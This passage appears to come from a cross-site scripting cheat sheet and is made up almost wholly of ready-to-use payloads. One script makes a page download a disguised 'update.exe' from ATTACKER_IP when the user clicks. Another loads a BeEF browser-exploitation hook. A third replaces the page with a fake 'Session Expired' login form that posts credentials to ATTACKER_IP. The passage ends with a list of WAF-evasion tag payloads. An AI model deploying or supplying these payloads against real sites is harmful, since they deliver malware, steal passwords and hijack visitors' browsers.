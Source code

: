
## Advanced Techniques

### Execute on User Action
```html
<script>
document.addEventListener('click', function() {
    fetch('http://ATTACKER_IP/payload.exe').then(r => r.blob()).then(b => {
        const url = URL.createObjectURL(b);
        const a = document.createElement('a');
        a.href = url;
        a.download = 'update.exe';
        a.click();
    });
});
</script>
```

### BeEF Hook (Browser Exploitation Framework)
```html
<script src="http://ATTACKER_IP:3000/hook.js"></script>
```

### Create Fake Login Form
```html
<script>
document.body.innerHTML = `
    <form action="http://ATTACKER_IP:8080/steal" method="POST">
        <h2>Session Expired - Please Login Again</h2>
        <input name="username" placeholder="Username" required>
        <input name="password" type="password" placeholder="Password" required>
        <button type="submit">Login</button>
    </form>
`;
</script>
```

---

## WAF Evasion Techniques

### 1. Obscure HTML Tags
```html
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<input onfocus=alert(1) autofocus>
<select onfocus=alert(1) autofocus>
<textarea onfocus=alert(1) autofocus>
<keygen onfocus=alert(1) autofocus>
<video><source onerror=alert(1)>
<audio src=x onerror=alert(1)>
```
